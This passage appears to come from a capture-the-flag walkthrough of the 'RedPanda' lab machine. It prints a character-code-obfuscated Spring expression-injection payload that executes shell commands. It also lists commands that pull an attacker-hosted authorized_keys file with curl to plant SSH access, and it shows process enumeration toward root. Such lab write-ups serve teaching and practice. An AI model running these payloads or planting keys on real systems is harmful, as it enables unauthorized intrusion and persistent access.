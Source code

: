 ```
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(115).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(107)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(121)).concat(T(java.lang.Character).toString(103)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(110)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(98)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(50)).concat(T(java.lang.Character).toString(48)).concat(T(java.lang.Character).toString(52)).concat(T(java.lang.Character).toString(56)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(114)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(102)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(109)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(107)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(121)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(113)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(78)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(34)).concat(T(java.lang.Character).toString(34))).getInputStream())}
```

Yep, that works. Now let's get the public key, and cat it into our authorized keys... so same deal as above, but need to create our `.ssh` dir first.

This will probably work, but getting errors with the private key we can leak. Let's try adding my own public key to the remote authorized_keys. We'll probably need to do this by setting up a webserver with python to serve an authorized_keys file we've created, pull it down with curl, and then update perms. Echoing a string with redirects gets filtered.

Bingo - `woodenk@redpanda:~$ `

Commands we used or encoded:

```
cp ~/.ssh/id_rsa.pub authorized_keys
python3 -m http.server
# encode and send the rest to remote server
mkdir /home/woodenk/.ssh
curl http://<vpn_ip>:8000/authorized_keys -o /home/woodenk/.ssh/authorized_keys
chmod -R 0700 /home/woodenk/.ssh
chown -R woodenk:woodenk /home/woodenk/.ssh
```

# Let's get to the root of the problem

Looks like we have a few processes running as `root` but `sudo`ing the execution as `woodenk`... cron job?:

```
root         878  0.0  0.0   2608   536 ?        Ss   Jul30   0:00 /bin/sh -c sudo -u woodenk -g logs java -jar /opt/panda_search/target/panda_search-0.0.1-SNAPSHOT.jar
root         879  0.0  0.2   9420  4576 ?        S    Jul30   0:00 sudo -u woodenk -g logs java -jar /opt/panda_search/target/panda_search-0.0.1-SNAPSHOT.jar
```
